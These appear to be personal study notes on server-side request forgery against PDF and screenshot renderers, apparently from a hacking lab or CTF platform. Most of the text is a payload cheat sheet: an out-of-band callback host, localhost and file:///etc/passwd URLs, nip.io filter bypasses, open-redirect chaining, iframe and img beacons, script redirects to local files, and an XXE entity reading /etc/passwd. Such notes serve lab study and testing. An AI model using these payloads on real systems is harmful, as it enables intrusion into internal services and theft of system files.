 ___

![[Pasted image 20241214123720.png]]

https://app.interactsh.com/#/

## Screenshot Context and PDF Context

```
http://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun
```

```
http://127.0.0.1
```

```
file:///etc/passwd
```

## Blacklisted Resources

```
http://127.1
```

https://nip.io/

`<anything>[.-]<IP Address>.nip.io` in **"dot"**, **"dash"** or **"hexadecimal"** notation to the corresponding `<IP Address>`:

- dot notation: `magic.127.0.0.1.nip.io`
- dash notation: `magic-127-0-0-1.nip.io`
- hexadecimal notation: `magic-7f000001.nip.io`

## Whitelisting and Bypasses

```
http://hackinghub.io.127.0.0.1.nip.io
```

## Chaining Open Redirects

```
https://charcoal.ctfio.com/?redirect=http://localhost:8080
```

## In an Image Context

Scan internal ports, 
Time based
```
http://127.0.0.1:8080/favicon.ico
```

## Chaining HTML Injection

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

```
<iframe/src="http://localhost:8080">
```

## Chaining XSS

```
<script>document.write(document.location)</script> 
```

```
<script>window.location = "http://localhost"; </script>
```

```
<script>window.location = "file:///etc/passwd"; </script>
```

instead of calling it directly,

```
<iframe/src=https://mywebsite.com/locationwhere.html>
```

## Chaining XML External Entity (XXE)

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

Get the user-agent --> # Prince v10
```xml
<?xml version="1.0"?>
<!DOCTYPE cdl [<!ENTITY asd SYSTEM "file:///etc/passwd">]>
<cdl>&asd;</cdl>
```


